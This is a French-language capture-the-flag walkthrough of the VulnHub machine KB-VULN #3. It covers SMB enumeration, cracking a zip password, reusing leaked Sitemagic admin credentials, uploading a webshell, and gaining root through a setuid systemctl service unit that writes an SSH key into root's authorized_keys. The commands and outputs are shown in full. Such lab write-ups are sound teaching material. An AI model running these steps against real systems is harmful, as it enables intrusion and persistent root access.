 ```yaml
---
title: Solution du CTF KB-VULN #3 de VulnHub
tags: [CTF, VulnHub]
---
```


Kyoto Frift
-----------

Ça manque un peu d'originalité mais comme le précédent on va partir sur du Samba :  

```plain
Nmap scan report for 192.168.56.7
Host is up (0.00017s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cb:04:f0:36:3f:42:f7:3a:ce:2f:f5:4c:e0:ab:fe:17 (RSA)
|   256 61:06:df:25:d5:e1:e3:47:fe:13:94:fd:74:0c:85:00 (ECDSA)
|_  256 50:89:b6:b4:3a:0b:6e:63:12:10:40:e2:c4:f9:35:33 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:CA:64:3B (Oracle VirtualBox virtual NIC)
Service Info: Host: KB-SERVER; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2021-12-07T21:14:52
|_  start_date: N/A
|_nbstat: NetBIOS name: KB-SERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: kb-server
|   NetBIOS computer name: KB-SERVER\x00
|   Domain name: \x00
|   FQDN: kb-server
|_  System time: 2021-12-07T21:14:52+00:00
```

Hack-Me ? Oui oui !  

```bash
$ smbclient -U "" -N -L //192.168.56.7

        Sharename       Type      Comment
        ---------       ----      -------
        Files           Disk      HACK ME
        IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available

$  smbclient -U "" -N //192.168.56.7/Files
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Oct  2 20:11:49 2020
  ..                                  D        0  Fri Oct  2 19:12:00 2020
  website.zip                         N 38936127  Fri Oct  2 20:11:41 2020

                14380040 blocks of size 1024. 9540188 blocks available
```

Quand on tente de décompresser le zip ce dernier réclame un mot de passe. On a recours à l'utilitaire *zip2john* qui génère un hash aussi long qu'une *Chevrolet Bel Air*. Je vous fait grâce de cet output.  

Ça se casse bien :  

```plain
$ ./john --wordlist=rockyou.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porchman         (website.zip)     
1g 0:00:00:02 DONE (2021-12-07 22:19) 0.3861g/s 1764Kp/s 1764Kc/s 1764KC/s porno:O..popchie91
```

L'archive semble être une backup de l'install du CMS [Sitemagic](https://sitemagic.org/). On trouve ainsi des identifiants dans le fichier *config.xml.php* :  

```php
<?php exit(); ?>                                                                                                       
<?xml version="1.0" encoding="ISO-8859-1"?>                                                                            
<entries>                                                                                                              
<!-- REQUIRED, throws custom exception if missing -->                                                                  
    <entry key="Username" value="admin"/>                                                                              
<!-- REQUIRED, throws custom exception if missing -->                                                                  
    <entry key="Password" value="jesse"/>
```

On a aussi un numéro de version dans *metadata.xml* :  

```html
<entry key="Release" value="4.4.2" />
```

Il existe un exploit d'upload pour cette version [sur exploit-db](https://www.exploit-db.com/exploits/48788). L'exploit nécessite une authentification préalable et ça tombe bien on a des identifiants.  

L'intuition m'amène sur *http://192.168.56.7/sitemagic/* et les identifiants passent.  

Pas besoin d'exploit pour cette vulnérabilité : on trouve facilement dans l'interface la fonctionnalité d'upload et elle ne dispose d'aucune restriction sur le type de fichier.  

Par défaut les fichiers sont placés dans le dossier *images* donc mon webshell se retrouve à *http://192.168.56.7/sitemagic/files/images/shell.php*.  

Dokyo Trift
-----------

Un utilisateur heisenberg est présent sur le système. Il possède notamment le premier flag (*6346c6d19751f1a3195f1e4b4b609544*) :  

```plain
drwxr-xr-x 4 heisenberg heisenberg 4096 Oct  2  2020 .
drwxr-xr-x 3 root       root       4096 Oct  2  2020 ..
-rw-r--r-- 1 heisenberg heisenberg  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 heisenberg heisenberg 3771 Apr  4  2018 .bashrc
drwx------ 2 heisenberg heisenberg 4096 Oct  2  2020 .cache
drwx------ 3 heisenberg heisenberg 4096 Oct  2  2020 .gnupg
-rw-r--r-- 1 heisenberg heisenberg  807 Apr  4  2018 .profile
-rw-r--r-- 1 heisenberg heisenberg    0 Oct  2  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root       root         33 Oct  2  2020 user.txt
```

Cette fois pas d'environnement Docker. *LinPEAS* remonte la faille sudo que j'ai mentionné sur d'autres CTFs :  

```plain
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

Mais le CTF est un peu ancien donc l'escalade de privilèges attendue n'est certainement pas liée à cet exploit.  

En revanche le programme */bin/systemctl* est setuid et setgid root. Il existe une entrée pour ce programme [sur GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) mais elle se base sur un fichier placé dans */tmp* alors que systemctl montre une certaine aversion avec ce dossier (voir par exemple [ici](https://ivanitlearning.wordpress.com/2020/10/14/hackthebox-jarvis/)).  

Je me suis mis sous la racine web où j'avais un accès en écriture et commencé par un petit test :  

```bash
www-data@kb-server:/var/www/html/sitemagic$ cat yolo.service 
[Unit]
Description=root

[Service]
Type=oneshot
ExecStart=/usr/bin/touch  /var/www/html/sitemagic/hi_there.txt

[Install]
WantedBy=multi-user.target

www-data@kb-server:/var/www/html/sitemagic$ systemctl link /var/www/html/sitemagic/yolo.service 
Created symlink /etc/systemd/system/yolo.service → /var/www/html/sitemagic/yolo.service.

www-data@kb-server:/var/www/html/sitemagic$ systemctl enable --now yolo.service
Created symlink /etc/systemd/system/multi-user.target.wants/yolo.service → /var/www/html/sitemagic/yolo.service.

www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service

www-data@kb-server:/var/www/html/sitemagic$ systemctl status yolo.service
● yolo.service - root
   Loaded: loaded (/var/www/html/sitemagic/yolo.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2021-12-08 08:14:54 UTC; 1min 23s ago
  Process: 8900 ExecStart=/usr/bin/touch /var/www/html/sitemagic/hi_there.txt (code=exited, status=0/SUCCESS)
 Main PID: 8900 (code=exited, status=0/SUCCESS)

Dec 08 08:14:54 kb-server systemd[1]: Starting root...
Dec 08 08:14:54 kb-server systemd[1]: Started root.

www-data@kb-server:/var/www/html/sitemagic$ ls -l hi_there.txt 
-rw-r--r-- 1 root root 0 Dec  8 09:14 hi_there.txt
```

J'obtiens bien mon fichier créé par *root* :)  

Je modifie le service pour que la commande copie ma clé publique SSH sur */root/.ssh/authorized\_keys* et je relance. Systemctl voit une modification et demande un rechargement :  

```bash
www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service
Warning: The unit file, source configuration file or drop-ins of yolo.service changed on disk. Run 'systemctl daemon-reload' to reload units.

www-data@kb-server:/var/www/html/sitemagic$ systemctl daemon-reload
www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service
www-data@kb-server:/var/www/html/sitemagic$ systemctl status yolo.service
● yolo.service - root
   Loaded: loaded (/var/www/html/sitemagic/yolo.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2021-12-08 08:22:05 UTC; 4s ago
  Process: 16351 ExecStart=/bin/cp /var/www/html/sitemagic/my_key.pub /root/.ssh/authorized_keys (code=exited, status=0/SUCCESS)
 Main PID: 16351 (code=exited, status=0/SUCCESS)

Dec 08 08:22:05 kb-server systemd[1]: Starting root...
Dec 08 08:22:05 kb-server systemd[1]: Started root.

root@kb-server:~# cat root.txt 

  ####   ####  #    #  ####  #####    ##   ##### #    # #        ##   ##### #  ####  #    #  ####     
 #    # #    # ##   # #    # #    #  #  #    #   #    # #       #  #    #   # #    # ##   # #        
 #      #    # # #  # #      #    # #    #   #   #    # #      #    #   #   # #    # # #  #  ####     
 #      #    # #  # # #  ### #####  ######   #   #    # #      ######   #   # #    # #  # #      #    
 #    # #    # #   ## #    # #   #  #    #   #   #    # #      #    #   #   # #    # #   ## #    #    
  ####   ####  #    #  ####  #    # #    #   #    ####  ###### #    #   #   #  ####  #    #  #### 

                                            kernelblog.org    

49360ba4cbe27a1b900df25b247315d7
```


*Published December 08 2021 at 12:10*
